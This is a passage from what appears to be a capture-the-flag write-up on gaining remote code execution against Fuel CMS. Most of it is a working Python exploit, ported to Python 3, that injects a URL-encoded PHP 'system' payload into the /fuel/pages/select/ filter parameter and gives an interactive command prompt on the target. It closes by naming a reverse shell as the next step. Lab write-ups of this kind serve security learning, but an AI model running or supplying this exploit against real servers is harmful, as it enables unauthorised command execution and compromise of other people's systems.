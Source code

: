 ```python
	print r.text[0:dup]
```

This exploit allowed for remote code execution (RCE), which is a vulnerability that allows an attacker to execute commands on the server.

Looking at this code, it seems to be an interactive shell that sends requests to the server by injecting payloads into the URL.

I then modified the code to suit my needs:

```python
import requests
import urllib
from urllib.parse import quote

url = "http://<ip>"
def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start

while 1:
	xxxx = input('cmd:')
	burp0_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.parse.quote(xxxx)+"%27%29%2b%27"
	#proxy = {"http":"http://127.0.0.1:8080"}
	r = requests.get(burp0_url)

	html = "<!DOCTYPE html>"
	htmlcharset = r.text.find(html)

	begin = r.text[0:20]
	dup = find_nth_overlapping(r.text,begin,2)

	print(r.text[0:dup])
```

What I did was to change some of the code to suit Python 3, and removed the proxy.

Now, we can test it out using

```bash
python3 exploit.py
```

Once there is a successful connection (seen by the `cmd:` prompt), we can try out some commands.

![execution](./img/ignite/execution.png)

It seems to be working well! It seemed to be spitting out some PHP errors, but above that, we can see that the commands are being executed properly.

But, we can't do much with this, as we are in a limited, non-interactive shell. Thus, the next step is to get a reverse shell.
